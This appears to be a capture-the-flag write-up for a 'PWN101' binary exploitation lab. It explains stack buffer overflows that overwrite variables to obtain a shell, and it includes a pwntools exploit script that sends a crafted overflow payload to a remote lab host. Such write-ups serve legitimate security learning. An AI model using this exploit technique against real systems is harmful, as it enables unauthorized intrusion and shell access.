







# PWN101

### Challenge 1
- The binary asks us what are the ingridents to make biriyani, based on our response it gives us a result.



- checksec on the binary, we can see that there are no canaries, so overflow can be done.



- As the binary is not stripped so we can see the code logic easily. When checking the main function we can see its checking if preset_value is 1337 if its not so we get shell.\
So the objective is to rewrite preset_value to something other than 1337. And we can also see that the size of the buffer.



- Entering more characters than the input_buffer accepts will overwrite the preset_value.



### Challenge 2
- Interacting with the binary



- Checksec on the binary



- As we can see the binary is not stripped so we can see the logic without any problem. When inspecting the main logic we can see that two variables are assigned with some inital values, and then these are being comapred with other values, if these values matches then we get out shell.



- This time user provided input is acquired using scanf() , which won't check the length of the string stored in var_70h.\
There are no canaries so we can use Buffer Overflow which can overwrite the variables.\
So we first need to write some dummy values so that we can reach the first variable, then 4 bytes (as the comparison happens in double word) in variable and next 4 bytes in the other variable.

- So the question is how many bytes do we pad before we actually reach the variable we need to overwrite. This is not that tough with general math we can do.
```
we know that we start writing at rbp - 0x70
and we write till rbp - 0x8,
in hex when we subtract this we get: 68 in hex, which is 104 in decimal
```
**Exploit**
```python
from pwn import *

context.binary = binary = './pwn102-1644307392479.pwn102'

# p32(0xc0ff33) = \x33\xff\xc0\x00 = this will convert to little endian and 4 bytes format
payload = b"A" * 0x68 + p32(0xc0d3) + p32(0xc0ff33)

# p = process()
p = remote("10.49.132.154", 9002)
p.recv()
p.sendline(payload)
p.interactive()
```

### Challenge 3
